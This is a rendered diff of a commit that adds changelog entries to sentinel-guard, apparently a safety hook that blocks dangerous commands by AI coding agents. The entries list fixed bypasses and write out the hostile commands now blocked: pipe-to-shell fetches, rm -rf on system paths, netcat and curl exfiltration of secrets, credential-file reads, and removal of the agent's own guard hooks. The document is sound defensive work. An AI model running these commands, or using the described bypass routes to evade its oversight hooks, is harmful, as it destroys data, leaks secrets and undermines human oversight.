

Before and after one commit to StressTestor/sentinel, a Markdown page: CHANGELOG.md, the part around the change. Shown at 94% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs(changelog): record the security-bypass fix batch (#30-#47) (#50)

```diff
--- a/CHANGELOG.md
+++ b/CHANGELOG.md
@@ -5,6 +5,50 @@ All notable changes to sentinel-guard are documented here. The format follows
 versioning.
 
 ## [Unreleased]
+
+### Security
+A batch of policy-bypass fixes from an adversarial review pass over the default
+ruleset and matchers. Each lands with regression tests; `verify` stays 42/42 and
+the zero-false-positive-block ethos is preserved.
+
+- **Pipe-to-shell wrappers** (#33). `curl … | env sh`, `| /usr/bin/env bash`,
+  `| nice sh`, `| tee f | sh` now block. The shell is matched only at a command
+  position (right after a pipe, or after a known exec-wrapper), so a fetch piped
+  into a filter whose argument merely names a shell (`… | grep ssh`) does NOT
+  false-block, and every `*sh` shell name keeps coverage.
+- **`rm -rf` with a later absolute operand** (#34). `rm -rf ./build /etc` and
+  `rm -rf /~ /` block; `rm -rf ~/scratch` stays allowed.
+- **`nc`/`ncat` stdin exfil behind quoted/escaped separators** (#44). A quoted
+  separator (`nc h 443 "x;y" < secret`) no longer hides the redirect, and an
+  escaped quote inside a double-quoted arg no longer aborts matching early.
+- **settings.json rewrite via redirect** (#31). `<`/`>` immediately after the
+  path (`sed -i … settings.json</dev/null`) are treated as token terminators.
+- **`~/.claude` deletion with a trailing slash** (#32). `rm -rf ~/.claude/`
+  blocks; a subdir cleanup (`rm -rf ~/.claude/projects/old`) still doesn't.
+- **case-varied HTTP clients in the secret-env exfil rule** (#45). `CURL` /
+  `Wget` data uploads referencing a secret-looking env var now block.
+- **allow-list brace-expansion fail-open** (#39). Every shell brace-expansion of
+  a path must be covered by an allow rule (`cat {ok,/tmp/secret}` blocks); an
+  expansion past the 64-way cap fails closed rather than allowing on a partial
+  check.
+- **glob witnesses leaking into allow matching** (#47). The deny-only deglob
+  fail-safe no longer fail-opens allow rules.
+- **credential paths with spaces** (#42). A quote/escape-aware lexer keeps
+  `"~/Library/Application Support/…/Cookies"` a single token so spaced deny.path
+  rules can't be split apart.
+- **npm preflight install-dir redirection** (#35). A trailing `&& cd /tmp` (or a
+  later `--prefix`) no longer points manifest inspection away from the install.
+- **self-protect for non-Claude agents** (#30). Hook-removal escalation now
+  covers Gemini / Crush / Codex configs and resolves the target across all path
+  aliases (a benign first alias can't shadow a real config path behind it).
+- **autorun detection across path aliases** (#36). A malicious config in a later
+  alias (`file_path` benign, `path` = `.mcp.json`) is no longer shadowed.
+
+### Fixed
+- **Build break on `main`** (#49). #41 had been merged on top of #48 against a
+  stale base, leaving `evaluate()` referencing undeclared
+  `post_secret_held` / `path_held`. Reverted — #48 already delivers the same
+  intent (a block-tier secret overrides every held warn: tool, path, command).
 
 ### Removed
 - **Dead tier scaffolding.** Deleted the unwired Tier-2 heuristic analyzer
```
